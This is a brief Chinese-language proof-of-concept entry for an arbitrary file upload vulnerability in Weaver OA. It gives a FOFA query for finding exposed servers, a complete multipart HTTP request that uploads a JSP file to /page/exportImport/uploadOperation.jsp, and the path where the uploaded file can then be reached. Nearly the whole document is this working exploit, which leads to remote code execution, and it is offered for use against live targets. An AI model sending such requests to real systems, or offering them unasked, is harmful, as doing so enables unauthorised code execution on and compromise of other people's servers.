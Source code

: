 ### 描述
fofa app="Weaver-OA"

### POC & 利用
```

POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: x.x.x.x
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://x.x.x.x/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFy3iNVBftjP6IOwo
Connection: close

------WebKitFormBoundaryFy3iNVBftjP6IOwo
Content-Disposition: form-data; name="file"; filename="12.jsp"
Content-Type: application/octet-stream

<%out.print(1111);%>
------WebKitFormBoundaryFy3iNVBftjP6IOwo--
```

### 然后访问
`page/exportImport/fileTransfer/12.jsp`
